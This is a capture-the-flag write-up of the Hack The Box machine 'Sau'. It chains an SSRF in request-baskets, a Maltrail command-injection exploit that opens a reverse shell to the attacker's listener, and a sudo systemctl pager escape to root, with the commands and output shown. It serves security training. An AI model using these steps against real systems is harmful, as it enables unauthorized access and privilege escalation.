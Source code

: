 ```yaml
---
title: Sau
categories: HTB
tags: complete retired easy linux
img_path: /assets/img/HTB/sau/
---
```


![Sau HTB machine card](Sau.png)

> Sau is an easy Linux machine from Hack the Box. Here is the tldr;
>
> * nmap shows ports 22 and 55555 are open and port 80 is filtered.
> * Port 55555 is running a version of `request-baskets` that is vulnerable to SSRF, allowing us to set up a proxy to access port 80.
> * Port 80 is running a service called `Maltrail` which is vulnerable to unauthenticated remote OS comand injection, allowing us to get a reverse shell.
> * Our user is able to run systemctl as sudo. This version uses the pager `less`, which retains the sudo priviledges allowing us to spawn a shell as root.
{: .prompt-tip }

## Enumeration

Let's start off with a basic nmap scan.

```bash
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB/sau]
└─$ nmap 10.10.11.224                             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-14 15:07 MST
Nmap scan report for 10.10.11.224
Host is up (0.061s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 11.14 seconds
```

SSH is probably not our ticket and port 80 is filtered, so 55555 is looking really interesting. Let's take a closer look and see what we have.

### Request Baskets

![Create a new basket](new_basket.png)
Visiting our ip address at port 55555 in a browser shows us a page called Request Baskets, which says it can collect and inspect HTTP requests.

Further investigation shows us that it is powered by request-baskets version 1.2.1. This should be helpful!

![Request Basket version 1.2.1](request_baskets_version.png)

Searching Google for request baskets version 1.2.1 reveals that it is vulnerable to server side request forgery (SSRF), CVE-2023-27163. Maybe we can use this to see what is on port 80?

Let's test it out by starting a netcat listener on our machine and see if we can reach it by creating a new basket.

```bash
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB/sau]
└─$ nc -lvnp 80
```

In the basket settings, let's configure it to forward the request to our Kali machine's IP address.

![Forwarding settings for basket](forward_settings1.png)

Next, let's curl the basket using the URL provided

![The url for our basket](basket_url.png)

Success! We are able to receive the request we sent on our netcat listener.

![curl the basket with nc listener open](nc_request.png)

### SSRF

Now that we see how things work and know that it is vulnerable, let's see if we can use it to connect to the mysterious port 80. To do this, let's edit the settings for our basket again and set it to forward port 80 from `http://127.0.0.1` with Proxy Response and Expand Forward Path checked.

![Adjusting the settings for our basket](forward_settings2.png)

### Maltrail v 0.53

Now when we go to the URL for the basket, it gives us a broken looking site. At the bottom, we notice it is running something called Maltrail v 0.53. 

![Broken looking homepage for maltrail on port 80](maltrail.png)

Google shows us that this version is vulnerable to unauthenticated OS command injection (RCE). I found this Python exploit that should give us a reverse shell. [Spookier Maltrail v 0.53 Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit)

### We have a shell!

To run the exploit, we just need to start a netcat listener (I chose port 9001), then run the exploit passing it our listening IP address and port, along with the url for our basket.

```bash
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB]
└─$ python3 maltrail.poc.py 10.10.14.6 9001 http://10.10.11.224:55555/ionzxhf
```

![Terminal showing reverse shell](rev_shell.png)
Hooray! We now have a reverse shell, it looks like we're currently running as the user "puma".

## Foothold & User

Let's upgrade our shell a little and take a look around.

```bash
┌──(f0rest3xplorer㉿kali)-[~/Documents/HTB]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.224] 51276
$ python3 -c 'import pty;pty.spawn("/bin/bash")';
python3 -c 'import pty;pty.spawn("/bin/bash")';
puma@sau:/opt/maltrail$ 
```

### User Flag

If we navigate to `/home/puma` we are able to get the `user.txt` flag, no privesc needed at this point.

### Privesc

One of the first things I like to run is `sudo -l` to see if our user can run anything as root.

```bash
puma@sau:/opt/maltrail$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Bingo! Looks like we're able to run `sudo systemctl status trail.service` with no password. If we run `systemctl --version`, we see that we're running `systemd 245 (245.4-4ubuntu3.22)`.

## Root!

It appears that if we run the command as sudo, it will use the pager `less` to show the results. Within `less`, we are able to run commands and it maintains the sudo priviledges allowing us to launch `/bin/bash` as root. To run a command in less you just type `!` followed by your command.

```bash
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/bash
!//bbiinn//bbaasshh!/bin/bash
root@sau:/opt/maltrail# id
id
uid=0(root) gid=0(root) groups=0(root)
root@sau:/opt/maltrail# 
```

And we have root!



